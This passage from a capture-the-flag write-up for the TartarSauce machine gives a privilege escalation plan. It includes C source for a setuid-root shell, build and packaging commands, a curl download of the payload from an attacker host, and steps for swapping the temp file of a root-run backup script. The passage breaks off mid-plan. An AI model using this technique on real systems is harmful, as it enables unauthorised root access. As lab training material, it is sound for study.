 #### 🚩 Exploit Plan

We compile a **setuid root binary**:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(void) {
    setreuid(0, 0);
    system("/bin/sh");
}
```

> I built this on a Docker container running Ubuntu 16.04 (same as the TartarSauce box).

```
docker run -it ubuntu:16.04 bash
```

```
# Run this in the docker container
apt update && apt upgrade -y
apt install gcc nano
apt install -y gcc-multilib
```

Compile the SUID binary:

```
# in dokcer
gcc -m32 -o suid suid.c
```

Structure the payload:

```
# on your maching as root
mkdir -p var/www/html
chmod 4755 suid
cp suid var/www/html/
tar -zcvf exp.tar.gz var/
```

Deliver to the target:

```
curl -o exp.tar.gz http://10.10.14.22:8000/exp.tar.gz
```

Overwrite the temp file created by `backuperer`:(happens every 5 min)

```
cp exp.tar.gz .<matching_tempfile>
```

Wait \~30s. The backup script will extract `exp.tar.gz` to `/var/tmp/check/var/www/html`.

Then:

